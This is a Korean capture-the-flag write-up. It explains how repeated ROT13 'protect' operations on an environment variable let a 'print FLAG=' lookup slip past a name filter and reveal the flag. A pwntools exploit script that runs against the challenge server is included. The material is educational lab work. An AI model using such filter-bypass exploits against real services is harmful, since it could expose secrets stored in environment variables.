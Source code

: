 ```c
      } else {
        char *val = getenv(name);
        if (val) {
          printf("%s=%s\n", name, val);
        } else {
          printf("No such environment variable\n");
        }
      }
    } else {
      printf("Unknown command\n");
      break ;
    }
  } 
  return 0;
}
```
`print`와 `protect` 커맨드가 제공되고 있으며, 이에 대한 타겟은 바이너리가 실행될 때 갖게되는 환경 변수가 됩니다.

`protect` 커맨드를 환경 변수에 적용시키면 환경 변수에 입력된 값에 대해서 `ROT13` 연산을 진행하게됩니다.

또한 `print` 커맨드에서 볼 수 있듯, `FLAG` 환경 변수가 설정되어있는 듯 하고, 이를 읽는 문제라고 볼 수 있겠습니다.

그대로 `print` 연산의 인자로 지정할 경우 필터링에 걸리기 때문에 `FLAG`를 평문으로 보는 방법은 없습니다. 딱히 공격할 구간이 있지도 않았습니다.

해당 문제에서는 환경변수에 가공을 가할 경우 발생하는 논리적 문제를 이용해서 플래그를 얻어낼 수 있습니다. 현재 플래그의 생김새를 대충 생각해보면 환경 변수는 다음과 같이 스택에 설정 되어있을겁니다.

`FLAG=?????????` 

이때 `=` 이후의 구간에 `ROT13` 연산을 진행했을 때 다음과 같이 나오게된다면,

`FLAG==????????`

환경변수 이름을 `FLAG=`로 조회하여 필터링을 우회하고 `ROT13`이 `N`번 걸려있는 상태의 플래그 값을 볼 수 있습니다. 해당 문제를 풀 당시에는 느낌적으로 "그렇게 하면 되지 않을까?"로 접근했었는데, 운 좋게 맞아떨어졌습니다. `glibc-2.27`에서의 `getenv` 코드는 <a href="https://elixir.bootlin.com/glibc/glibc-2.27/source/stdlib/getenv.c">여기</a>에서 확인할 수 있습니다.

## Exploit

먼저 다음과 같은 코드로 `FLAG==`의 형태로 값을 만들기 위해 필요한 `N`값 + `ROT13`이 `N`번 적용된 플래그 값을 추출해냅니다.
```python
from pwn import *
p = remote('0.cloud.chals.io', 33121)
i = 1
while True:
    p.sendlineafter('>', 'protect FLAG')
    p.sendlineafter('>', 'print FLAG=')
    result = p.recvuntil('No such environment variable\n', timeout=3)
    if b"" == result:
        break
    i+=1
print(i)
p.interactive()
```

